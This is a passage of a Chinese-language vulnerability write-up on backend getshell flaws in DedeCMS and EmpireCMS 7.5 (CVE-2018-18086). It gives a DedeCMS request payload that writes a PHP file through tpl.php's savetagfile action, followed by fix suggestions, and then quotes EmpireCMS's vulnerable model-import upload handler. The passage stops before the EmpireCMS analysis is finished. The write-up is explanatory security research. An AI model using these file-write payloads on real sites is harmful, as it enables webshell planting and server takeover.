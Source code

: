 上传参数：
(由于dedecms全局变量注册的特性，content变量和filename变量可控，可以直接将content写入xxx.lib.php文件)
`action=savetagfile`
`token=上面action=upload获取的token`
`content=要写入的🐎`
`filename=xxx.lib.php（要匹配正则）`

```
payload:
dede/tpl.php?action=savetagfile&token=6ef0da020e1836c5401127d2605cb35b&filename=info.lib.php&content=<?php phpinfo();?>
```

之前查看代码可知传入的路径为include/taglib/$filename

访问`include/taglib/info.lib.php`即可

![](https://i.loli.net/2021/02/14/dIOG1YUcrPkWjHg.png)

修复：

1.禁止此处写入文件。

2.过滤恶意标签



### 帝国cms

#### 7.5后台getshell(CVE-2018-18086)

```
影响版本：帝国CMS(EmpireCMS) <= 7.5

描述：EmpireCMS7.5版本中的/e/class/moddofun.php文件的”LoadInMod”函数存在安全漏洞,攻击者可利用该漏洞上传任意文件。
```

上传任意文件：

/e/admin/ecmsmod.php中：

```php
//导入模型
elseif($enews=="LoadInMod")
{
	$file=$_FILES['file']['tmp_name'];
    $file_name=$_FILES['file']['name'];
    $file_type=$_FILES['file']['type'];
    $file_size=$_FILES['file']['size'];
	LoadInMod($_POST,$file,$file_name,$file_type,$file_size,$logininid,$loginin);
}
```


查看LoadInMod函数（/e/class/moddofun.php）：

<details><summary>LoadInMod函数</summary></details>


关键代码分析如下（因为代码太长了==就截图出来）
